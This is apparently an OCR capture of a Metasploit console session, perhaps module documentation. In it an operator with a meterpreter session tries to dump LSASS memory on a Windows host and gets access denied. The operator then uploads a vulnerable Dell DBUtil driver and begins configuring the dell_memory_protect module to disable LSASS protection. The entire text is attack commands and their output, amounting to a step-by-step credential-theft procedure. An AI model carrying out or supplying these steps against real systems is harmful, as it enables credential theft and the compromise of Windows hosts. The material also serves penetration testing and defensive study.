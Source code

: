 ```
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 740  572   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DUMP_PATH                   yes       File to write memory dump to
   DUMP_TYPE  standard         yes       Minidump size (Accepted: standard, full)
   PID                         yes       ID of the process to dump memory from
   SESSION                     yes       The session to run this module on

msf6 post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/memory_dump) > set PID 740
PID => 740
msf6 post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp
[*] uploading  : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploaded   : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf6 post(windows/manage/dell_memory_protect) > options

Module options (post/windows/manage/dell_memory_protect):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   DRIVER_PATH                          yes       The path containing the driver inf, cat, and sys (and coinstaller)
   ENABLE_MEM_PROTECT  false            yes       Enable or disable memory protection
   PID                                  yes       The targeted process
   SESSION                              yes       The session to run this module on
```